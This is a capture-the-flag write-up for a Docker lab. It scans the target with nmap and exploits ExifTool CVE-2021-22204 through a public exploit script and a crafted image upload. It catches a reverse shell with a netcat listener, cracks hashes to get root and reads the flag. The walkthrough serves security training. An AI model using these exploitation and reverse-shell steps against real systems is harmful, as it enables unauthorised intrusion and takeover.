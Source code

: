 ## Solution MiruCTF

The first thing is to perform a scanner with nmap to the Docker container the default IP of the container is '172.17.0.2'.

The service you have detected is 'Apache httpd 2.4.53'.

```
$ nmap -sV 172.17.0.2

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.53 ((Debian))

```

In the browser you have to open the following URL [http://172.17.0.2/](http://172.17.0.2/).


When entering the web you can see that it indicates that the version of Exiftool is 12.23, when performing a quick search it is known that it has a vulnerability reported with the CVE 2021-22204.

When searching for an exploit to exploit CVE 2021-22204, the following GitHub repository is found which must be cloned.

```
$ git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
```

We install the prerequisites that appear in the Readme of the [previous repository](https://github.com/convisolabs/CVE-2021-22204-exiftool). 
```
$ sudo apt install djvulibre-bin
```

We open the file `exploit.py` and change the IP address to `172.17.0.1`.

We execute the following command to create the file `image.jpg` with the exploit.
```
$ python3 exploit.py
```

We run the following command and put Netcat into listen mode.
```
$ nc -nvlp 9090
```

We open the browser at the URL [http://172.17.0.2/](http://172.17.0.2/) and upload the `image.jpg` file with the exploit.


In the terminal where netcat has been executed we will have access to the Docker container Shell and execute the `id` command to find out which user we are.
```
$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
We go to the `/home` directory and find some `.txt` files with the usernames and hashed passwords of the system.

With the John the Ripper tool we obtain the password of the `root` user.

Run the following command.

```
$ su -
Password: 12345
```

We look for a file called `flag.txt` which is located in `/root/`, with which we have finished the challenge.

```
$ cat flag.txt
49dad4071eb37cd0ccdf7309e17a4f77
```
